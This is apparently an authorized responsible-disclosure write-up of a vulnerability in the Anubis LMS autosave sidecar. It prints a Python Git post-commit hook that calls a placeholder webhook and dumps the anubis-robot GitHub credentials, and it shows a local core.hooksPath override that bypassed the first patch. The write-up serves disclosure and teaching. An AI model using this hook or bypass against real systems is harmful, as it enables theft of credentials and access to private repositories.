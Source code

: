 <preview>
#### Abusing Anubis Autosave to Break into Student GitHub Repositories

In this writeup, I’ll be presenting an interesting vulnerability I found that enables an attacker to abuse the assignment autosave functionality to leak sensitive tokens and configurations from an otherwise inaccessible container. An attacker can then use these sensitive tokens to break into the class’s GitHub organization to break into other students’ and faculty’s repositories, and potentially access other sensitive Anubis resources.
</preview>

#### How Anubis Autosave Works

When you boot into Anubis’s [Theia IDE](https://theia-ide.org), you’re interacting with a provisioned Docker container created just for you. From here, you have the opportunity to access a Linux shell inside to build and debug programs for your assignments. One neat feature that has been introduced is the ability to *autosave*, which can be done inside the assignment repository with the following command:

```bash
$ anubis autosave
```

Once this command is executed, it [calls an HTTP API endpoint](https://github.com/AnubisLMS/Anubis/blob/118f70faccd4ebceb8df4b492469473c7f978396/theia/ide/theia-base/cli/anubis/cli.py#L196-L200) at [http://localhost:5001/](http://localhost:5001/), which actually lives on a *separate container,* but is able to access a shared volume with your IDE container that contains only your assignment repository. When called, this API service then automatically runs Git commands on the repo as `anubis-robot` to commit and push any new changes to the class GitHub to automatically save your progress:

![](https://raw.githubusercontent.com/AnubisLMS/Anubis/cb7e48f5564c12d4b279c575bc4faa11019f8fed/docs/design-tex/figures/autograder-1.png)

Having this “sidecar” container is very important: it decouples sensitive functionality from the unprivileged student-facing IDE container. In this instance, having this design pattern means that students are not able to execute Git operations as `anubis-robot`, whose credentials live entirely in the sidecar container in its `~/.git-credentials` path and has Git access to every student and faculty’s codebases in the organization. Thus, the students must make changes, and then run the `anubis autosave` command to interact with your codebase over the shared volume, which will only strictly commit and push to GitHub. Once done, we see the tool spit out some Git output, which was originally from the remote service:

![](https://raw.githubusercontent.com/AnubisLMS/Anubis/cb7e48f5564c12d4b279c575bc4faa11019f8fed/docs/design-tex/figures/autograder-2.png)

However, what if there is a way we can make this autosave functionality also spill out `anubis-robot`'s credentials for us to gain privileged access to the `os3224` organization? Even worst, what if we can also arbitrarily run *any* malicious command in the sidecar container itself?

#### The Vulnerability

The vulnerability I found is actually quite trivial, but it does require a bit of background knowledge on some of Git’s obscure yet interesting features. For our exploit, we’ll be relying on [Git Hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks). Git Hooks allows you to write scripts that live in the `.git/hooks` folder in your repository that can arbitrarily execute commands or code before or after you run a Git operation, such as pushing. For instance, a developer can write a Git Hook that automates the deployment of their code to a cloud service or CI/CD when `git push` is run, and then actually push the changes upstream. Keep in mind that Git hook scripts you write exist *only locally*, so it’s not possible for an attacker to write a hook script that drops malware, and then push it to GitHub for other users to clone down.

When realizing how the IDE interacts with the sidecar, and the fact that the `.git` folder itself is also exposed in the shared volume, I immediately wrote a `pre-commit` hook that executes some code on the sidecar container once the service runs `git commit`.

First, I created a `.git/hooks/pre-commit` file in my assignment repository and marked it as executable with `chmod +x .git/hooks/pre-commit`. Inside it, I wrote a simple Python script, as it is supported by Git hooks with the proper `#!/usr/bin/env python3` shebang, and the fact that the sidecar service lives on a container with a [Python image](https://github.com/AnubisLMS/Anubis/blob/118f70faccd4ebceb8df4b492469473c7f978396/theia/sidecar/Dockerfile#L1):

```python
#!/usr/bin/env python3
import os
import urllib.request

# lets us know in the stdout we get back we've succeeded!
print("Pwned!")

# this just pings a random testing `https://webhook.site` URL to show we're alive.
# we could pip install requests, but `urllib` gives us `urllib.request` for free
urllib.request.urlopen("http://<WEBHOOK_URL>")

# dump `anubis-robot`s credential (not the best way to get the path, but whatever)
with open(os.getenv("HOME") + "/" + ".git-credentials", "r") as fd:
	print(fd.read())
```

I ran `anubis autosave` after making some random repo changes and braced for success... but nothing happened. 

It turns out that the Anubis team is pretty security-conscious, and they’ve actually taken a very good step to mitigate this type of vulnerability, by having the service run `git commit --no-verify`, which [prevents pre-hooks from executing](https://github.com/AnubisLMS/Anubis/blob/118f70faccd4ebceb8df4b492469473c7f978396/theia/sidecar/app.py#L62).

**However**, after digging a little further into Git documentation, it turns out that `--no-verify` does not stop *post*-hooks! We go back and change the script to `post-commit`, run `anubis autosave` and...

![](https://raw.githubusercontent.com/AnubisLMS/Anubis/cb7e48f5564c12d4b279c575bc4faa11019f8fed/docs/design-tex/figures/pwned-1.png)

Success! We now have access to `anubis-robot`'s username and password token pair! Judging by the `ghp_*` prefix in the API token, we now have stolen a personal access token. **If I was feeling evil, I can now use this to access any student’s (and potentially faculty’s) private repositories just through the GitHub API.**

We can even go a step further and dump out all the sensitive environment variables to see what other cloud resource endpoints we could potentially abuse as an attacker:

![](https://raw.githubusercontent.com/AnubisLMS/Anubis/cb7e48f5564c12d4b279c575bc4faa11019f8fed/docs/design-tex/figures/pwned-2.png)

This is of course blurred out because there is quite a bit of sensitive variables being set that shouldn’t be exposed to the student, such as the Kubernetes service API, which we could abuse with the `/run/secrets/kubernetes.io/serviceaccount/token` JWT token stored in the container to potentially enumerate and mess with sensitive resources that also exist in the Anubis infrastructure. Unfortunately, this didn’t work on my end, but was worth a shot.

#### Remediation

During the process of discovering this vulnerability, I kept in contact with John, and immediately reported this attack vector, which he patched almost instantaneously. The GitHub credentials were rotated, and a mitigation was pushed up that prevented Git hooks. This patch basically introduced a *global* change where Git hooks are basically disabled from ever running:

```yaml
[code]
hooksPath = /dev/null
```

However, given Git’s annoyingly complex features, this initial mitigation didn’t work. To override *global* Git configurations, all we have to do is to create a *local* one in the assignment repository either through `.git/config` or creating a `.gitconfig` file with the contents:

```yaml
[core]
hooksPath = "githooks/hooks"
```

.. and then create a directory in the repository called `githooks/hooks`, drop our malicious Git `post-commit` hook, and we can still exploit!

After spending some time sifting through Git’s documentation to determine conditions that can still lead to arbitrary code execution, a more bulletproof patch has since been integrated, which can be seen in [this commit here](https://github.com/AnubisLMS/Anubis/commit/72dc0233049e0b82f90e67d715c8bbc435509815), where each `git` operation now prevents *any* Git hook and clever aliasing to run. Other potential changes to restricting access pre- and post-exploitation are also being planned.

#### Conclusion

Despite the existence of this, it’s still important to mention this vulnerability didn’t exist because of poor implementation, but rather pesky obscure behaviors that can be abused in a dependent software component. After dedicating some time auditing the platform, Anubis is still very well secure and upholds incredibly strong design principles, which I’ll lay out here:

- Open Sourced

By remaining open-sourced, Anubis not only enables community collaboration, but also auditability of their codebase, as it enables well-intentioned hackers to quickly pinpoint and remediate severe bugs that can be exploited. For instance, having access to both documentation written by the team and infrastructure code [here](https://github.com/AnubisLMS/Anubis/blob/master/theia/sidecar/Dockerfile#L15) enabled me to quickly realize that the autosave functionality actually operates on a shared volume per assignment.

- Security Advocacy

Some members of the Anubis team have a strong security background. This means they not only thought about the attack surface during implementation and enforced strong access controls, but also encouraged others to responsibly attack and disclose vulnerabilities. Encouraging others  to do this to ultimately improve your software’s security posture is very positive shift in the industry security, yet still not widely adapted.

Overall this was a fun challenge to pull off, and was happy to pick up a few extra tricks for container and Kubernetes (ethical) hacking. Huge shoutout to John for giving permission to do this, and to bounce off questions about the design of the infrastructure!
